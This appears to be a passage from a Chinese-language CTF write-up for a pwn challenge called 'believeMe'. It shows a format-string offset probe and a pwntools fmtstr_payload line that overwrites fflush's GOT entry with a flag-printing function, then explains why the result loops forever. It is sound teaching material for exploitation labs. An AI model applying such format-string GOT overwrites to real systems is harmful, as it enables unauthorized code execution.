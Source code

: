 ```c
.text:080487CC ; 10:   printf(s);
.text:080487CC                 sub     esp, 0Ch
.text:080487CF                 lea     eax, [ebp+s]
.text:080487D2                 push    eax             ; format
.text:080487D3                 call    _printf
```

这里我本来以为只是简单的利用格式化字符串去修改fflush_got所以我先测出来fmt的偏移量为9

```bash
➜  believeMe ./believeMe 
Someone told me that pwning makes noxāle...
But......... how ???? 
aaaa%9$x
aaaa61616161%                                                         
➜  believeMe 
```

然后构造payload=fmtstr_payload(9,{fflush_got:noxflag_addr})想直接getflag，然后实际上没那么简单。调试过后发现fmtstr_payload不全，len(payload)输出检查后发现长度超了，稍微查了下pwntools文档的fmtstr部分，发现它默认是以hhn也就是单字节的形式去构造payload，如果以双字节或四字节的形式要加上write_size参数，这样payload的长度就不会超过40

```python
payload = fmtstr_payload(9,{fflush_got:noxFlag_addr},write_size='short')
```

然而当我们成功修改fflush_got为noxFlag的地址时会进入到一个死循环中，我们看一下noxFlag函数里面不难发现问题

```c
void __noreturn noxFlag()
{
  char i; // [esp+Bh] [ebp-Dh]
  FILE *stream; // [esp+Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  puts(s);
  fflush(stdout);//这里又调用了fflush函数，由于我们把fflush_got改成了noxFlag地址，这里相当递归调用noxFlag，形成死循环
  if ( stream )
  {
    for ( i = fgetc(stream); i != -1; i = fgetc(stream) )
    {
      putchar(i);
      fflush(stdout);
    }
    fflush(stdout);
    fclose(stream);
  }
  else
  {
    puts("Can't read file \n");
    fflush(stdout);
  }
  exit(0);
}
```
